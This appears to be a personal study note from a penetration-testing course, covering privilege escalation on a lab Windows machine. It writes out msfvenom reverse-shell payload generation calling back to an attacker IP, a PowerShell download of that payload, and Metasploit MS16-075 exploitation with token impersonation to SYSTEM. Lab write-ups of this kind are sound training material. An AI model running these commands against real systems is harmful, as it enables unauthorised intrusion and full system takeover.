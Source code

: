 Got initial foothold as `jeeves\kohsuke`[[PNPT/WPE/Impersonation and Potato/Initial Foothold|Initial Foothold]]

# Checking Privileges
---
- `whoami /priv`
	- These two look cool:
	- ![[Pasted image 20250415150752.png]]

# Meterpreter Shell
---
Note: **we can use metasploit's web delivery as well**
- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.19 LPORT=9002 -f exe -o reverse.exe`
- Not able to upload, so needed to get a powershell shell
	- I was not able to run powershell commands or open powershell from command prompt for some reason so used base64 encoded powershell reverse shell
		- ![[Pasted image 20250415153541.png]]

- Generate meterepreter file:
	- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.19 LPORT=9002 -f exe -o reverse.exe`
- Start python3 server:
	- `python3 -m http.server`
- Transfer using powershell
	- `Invoke-WebRequest 10.10.14.19:8000/reverse.exe -OutFile reverse.exe`
- Start metasploit and run to get shell:
	- ![[Pasted image 20250415153655.png]]

# Metasploit Exploit Suggester
---
- `multi/recon/local_exploit_suggester`
	- ![[Pasted image 20250415155046.png]]


# ms16_075_reflection attack
---
- `use exploit/windows/local/ms16_075_reflection`
- `set lhost tun0`
- `set payload windows/x64/meterpreter/reverse_tcp`
- `set lport 9005`
- `set session 1`
- `run`
	- ![[Pasted image 20250415155855.png]]
	- `load incognito`
	- `list_tokens -u`
	- `impersonate NT AUTHORITY\\SYSTEM`
- Note: **This should have worked, but did not, so I used this instead:**
	- **`use exploit/windows/local/ms16_075_reflection_juicy`**
- ![[Pasted image 20250415162105.png]]

- ![[Pasted image 20250415162121.png]]

[[Alternate Data Streams]]